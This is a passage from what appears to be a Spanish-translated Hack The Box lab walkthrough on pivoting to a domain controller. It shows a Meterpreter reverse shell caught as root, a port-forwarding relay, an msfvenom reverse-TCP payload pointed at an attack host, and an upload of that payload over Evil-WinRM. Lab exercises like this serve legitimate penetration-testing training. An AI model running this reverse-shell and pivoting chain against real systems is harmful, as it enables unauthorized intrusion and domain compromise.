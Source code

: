 Catch the Meterpreter shell using the multi/handler.

  Después de la explotación

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```

A continuación, configure una regla de reenvío de puertos local para reenviar todo el tráfico destinado al puerto`1234`en dmz01 al puerto`8443`en nuestro anfitrión de ataque.

  Después de la explotación

```shell-session
(Meterpreter 1)(/root) > portfwd add -R -l 8443 -p 1234 -L 10.10.14.15
[*] Reverse TCP relay created: (remote) :1234 -> (local) [::]:1234
```

A continuación, cree una carga útil ejecutable que cargaremos en el host del controlador de dominio.

  Después de la explotación

```shell-session
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 -f exe -o dc_shell.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: dc_shell.exe
```

Cargue la carga útil al DC.

  Después de la explotación

```shell-session
*Evil-WinRM* PS C:\> upload "/home/tester/dc_shell.exe" 

Info: Uploading /home/tester/dc_shell.exe to C:\\dc_shell.exe
                                                          
Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
```

Antecedentes la sesión de meterpreter
